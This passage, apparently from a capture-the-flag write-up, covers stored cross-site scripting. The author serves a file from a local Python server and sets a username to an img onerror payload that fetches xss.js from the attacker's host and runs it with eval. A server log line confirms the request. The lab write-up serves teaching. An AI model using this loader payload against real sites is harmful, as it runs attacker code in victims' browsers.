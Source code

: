 I'll start the server:



    oxdf@hacky$ python serve.py 
    Server started on port 80.



On refreshing the page, there's a hit (it looks just like
`python -m http.server` since I'm using that same module):



    10.10.14.6 - - [19/Jul/2023 18:32:15] "GET /xss.js HTTP/1.1" 200 -



In the console, now instead of the error there's the contents of the
file in the console:

![](/img/image-20230719183430864.png)

#### Better Payload - Part 2

Having bypassed the CORS issue, I still want to see if I can load code
from my server and run it. I'll update my username by replacing
`console.log(t)` with `eval(t)`:



    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror="fetch('http://10.10.14.6/xss.js').then(r => r.text()).then(t => {eval(t)});" />



If this works, there will be an alert window in the browser, and it will
mean that I can simple update the local file and refresh, without having
to logout, register, log back in, create a post, and view it. On doing
that one last time, there's a hit at my webserver and then an alert on
the page:

![](/img/image-20230719183731818.png)
